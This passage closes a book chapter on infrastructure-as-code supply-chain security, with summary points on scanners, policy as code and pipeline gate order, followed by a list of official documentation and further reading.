  apply (post-review, short-lived OIDC-scoped creds); never store a long-lived cloud-admin key in CI.
- **Two risk classes, complementary tools.** Misconfiguration scanners (Checkov, Trivy/tfsec,
  Terrascan, KICS, cfn-nag) catch insecure-but-intended config *and* many injected backdoors; scan the
  **plan JSON**, not just source. Policy as code (Conftest/OPA, Sentinel) enforces *your* invariants —
  including supply-chain ones like "no IAM role may trust a non-org account" — that generic scanners
  miss. Neither replaces human review of the diff.
- **The gate order is plan → scan → policy → review → approval → apply → drift-detect.** Every change
  is evaluated while it is still a proposed diff, and a controlled execution plane concentrates the
  credential, state, and policy so you can guard them well.

## Further reading

- HashiCorp, "Terraform: Dependency Lock File" and "Provider Requirements" — official documentation
  for `.terraform.lock.hcl`, hash types, and `terraform providers lock`.
- HashiCorp, "Terraform Registry: Provider Signing" and "Module Sources" — GPG signing of providers
  and the `source`/`version` semantics for modules.
- OpenTofu documentation — provider/module protocols, lock file, and the fork's compatibility with
  Terraform (opentofu.org/docs).
- HashiCorp, "Manage Terraform State" and "Backends: S3" — remote state, encryption, and locking.
- HashiCorp, "Sentinel" documentation — policy-as-code enforcement levels and the run-pipeline
  integration.
- Open Policy Agent / Conftest documentation, and "Terraform plan testing with OPA" — Rego against
  plan JSON.
- Checkov (bridgecrewio/checkov), Trivy (aquasecurity/trivy — the maintained home of tfsec), Terrascan,
  and KICS project documentation — check catalogs and CI integration.
- Pulumi documentation, "Secrets" and "How Pulumi Works" — encrypted state secrets and the program
  execution model.
- AWS, "AWS CDK" and "CloudFormation modules" documentation — construct libraries and template
  supply chain.
- Crossplane documentation, "Packages" and "Providers" — OCI-distributed providers and Compositions.
- Cross-references in this suite: Book 2, Chapter 2 — Versioning, Resolution, and Lockfiles; Book 2,
  Chapter 8 — Vendoring, Mirroring, and Internal Registries; Book 4, Chapter 6 — Secrets Management in
  CI/CD; Book 4, Chapter 7 — Pipeline Poisoning: PPE, Cache, and Artifact Attacks; Book 5, Chapter 4 —
  Keyless Signing and Workload Identity; Book 6, Chapter 6 — Admission Control and Policy Engines;
  Book 8, Chapter 4 — Policy as Code and Continuous Compliance.


- **Terraform lock file and provider signing** — https://developer.hashicorp.com/terraform/language/files/dependency-lock and https://developer.hashicorp.com/terraform/registry/providers/signing
- **OpenTofu documentation** — https://opentofu.org/docs/ and https://opentofu.org/registry/
- **Sentinel, OPA/Conftest, Checkov, Trivy, Terrascan, KICS** — https://developer.hashicorp.com/sentinel , https://www.openpolicyagent.org/docs/ , https://www.checkov.io/ , https://aquasecurity.github.io/trivy/ , https://runterrascan.io/ , https://checkmarx.com/kics/
- **Pulumi, AWS CDK, CloudFormation, Crossplane** — https://www.pulumi.com/docs/ , https://docs.aws.amazon.com/cdk/ , https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/Welcome.html , https://docs.crossplane.io/latest/
- **SLSA, Sigstore, and policy-as-code** — https://slsa.dev/spec/v1.0/ , https://docs.sigstore.dev/ , https://www.openpolicyagent.org/docs/latest/policy-language/
